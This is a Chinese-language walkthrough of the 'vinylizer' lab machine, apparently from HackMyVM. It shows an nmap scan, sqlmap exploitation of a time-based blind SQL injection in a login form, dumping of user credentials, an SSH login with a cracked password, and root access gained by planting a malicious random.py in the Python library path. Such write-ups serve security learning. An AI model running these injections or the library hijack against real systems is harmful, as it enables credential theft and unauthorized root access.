 ```yaml
---
title: vinylizer
tags:
  - sec
date: 2024-02-10T11:51:04
lastmod: 2025-09-29T20:52:01
toc: "true"
---
```

## 主机发现
使用 nmap 进行主机发现[[THM_Nmap Live Host Discovery(活动主机发现)]]
```bash
sudo nmap 192.168.10.1/24 -PA -sn -oN portscan/discovery.nmap
```
![HMM_vinylizer_image_1](https://img.l1uyun.one/HMM_vinylizer_image_1.png)
```bash
192.168.10.10
```
## 端口扫描

![HMM_vinylizer_image_2](https://img.l1uyun.one/HMM_vinylizer_image_2.png)
![HMM_vinylizer_image_3](https://img.l1uyun.one/HMM_vinylizer_image_3.png)


## web 侦查
![HMM_vinylizer_image_4](https://img.l1uyun.one/HMM_vinylizer_image_4.png)

## 利用登录页面的 sql 注入 
sqlmap
```bash
sudo sqlmap http://192.168.10.10/login.php --data "username=admin&password=admin&login="
```
![HMM_vinylizer_image_5](https://img.l1uyun.one/HMM_vinylizer_image_5.png)
```bash
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7762 FROM (SELECT(SLEEP(5)))rBJA) AND 'mJfQ'='mJfQ&password=admin&login=
---
```
查看所有数据库
```bash
 sudo sqlmap http://192.168.10.10/login.php --data "username=admin&password=admin&login=" --dbs
```
![HMM_vinylizer_image_6](https://img.l1uyun.one/HMM_vinylizer_image_6.png)
查看数据库的表信息
```bash
 sudo sqlmap http://192.168.10.10/login.php --data "username=admin&password=admin&login=" --tables -D vinyl_marketplace
```
![HMM_vinylizer_image_7](https://img.l1uyun.one/HMM_vinylizer_image_7.png)
查看某一个表的列信息
```bash
sudo sqlmap http://192.168.10.10/login.php --data "username=admin&password=admin&login=" --columns -D vinyl_marketplace -T users
```
![HMM_vinylizer_image_8](https://img.l1uyun.one/HMM_vinylizer_image_8.png)
查看对应列的信息
```bash
sudo sqlmap http://192.168.10.10/login.php --data "username=admin&password=admin&login=" -C username -D vinyl_marketplace -T users --dump

sudo sqlmap http://192.168.10.10/login.php --data "username=admin&password=admin&login=" -C password -D vinyl_marketplace -T users --dump
```
![HMM_vinylizer_image_9](https://img.l1uyun.one/HMM_vinylizer_image_9.png)
![HMM_vinylizer_image_10](https://img.l1uyun.one/HMM_vinylizer_image_10.png)

## 获得立足点
成功登录lana 用户 但是不能 ssh
![HMM_vinylizer_image_11](https://img.l1uyun.one/HMM_vinylizer_image_11.png)

`9432522ed1a8fca612b11c3980a031f6`
![HMM_vinylizer_image_12](https://img.l1uyun.one/HMM_vinylizer_image_12.png)
md5
![HMM_vinylizer_image_13](https://img.l1uyun.one/HMM_vinylizer_image_13.png)

```bash
ssh shopadmin@192.168.10.10

shopadmin:addicted2vinyl
```
## 权限提升_python 库劫持
![HMM_vinylizer_image_14](https://img.l1uyun.one/HMM_vinylizer_image_14.png)
```bash
ls -al /usr/bin/python3
/usr/lib/python3.10/random. py
```
![HMM_vinylizer_image_15](https://img.l1uyun.one/HMM_vinylizer_image_15.png)
实际是使用的 python3.10
将 vinylizer 代码下载到本地之后, 寻找利用点, 但是代码逻辑没有发现能够利用的点
发现使用了 random. py 这个第三方库, 尝试第三方库接吃吃
![HMM_vinylizer_image_16](https://img.l1uyun.one/HMM_vinylizer_image_16.png) 呗
使用 gpt 随便生成一个 random. py 文件
![HMM_vinylizer_image_17|500](https://img.l1uyun.one/HMM_vinylizer_image_17.png)
```bash
# random.py
import os

# 恶意代码
print("Executing malicious code...")
# 例如，在Linux环境下创建一个文件来证明执行成功
os.system('touch /tmp/malicious_code_executed')
```
然后复制到靶机上
![HMM_vinylizer_image_18](https://img.l1uyun.one/HMM_vinylizer_image_18.png)
成功替换
![HMM_vinylizer_image_19](https://img.l1uyun.one/HMM_vinylizer_image_19.png)
执行成功
![HMM_vinylizer_image_20](https://img.l1uyun.one/HMM_vinylizer_image_20.png)
获得一个 suid 的 bash
![HMM_vinylizer_image_21](https://img.l1uyun.one/HMM_vinylizer_image_21.png)
root
![HMM_vinylizer_image_22](https://img.l1uyun.one/HMM_vinylizer_image_22.png)


## 学习wp
```bash
sqlmap
--batch 全自动,不用回答Y
```
![HMM_vinylizer_image_23](https://img.l1uyun.one/HMM_vinylizer_image_23.png) 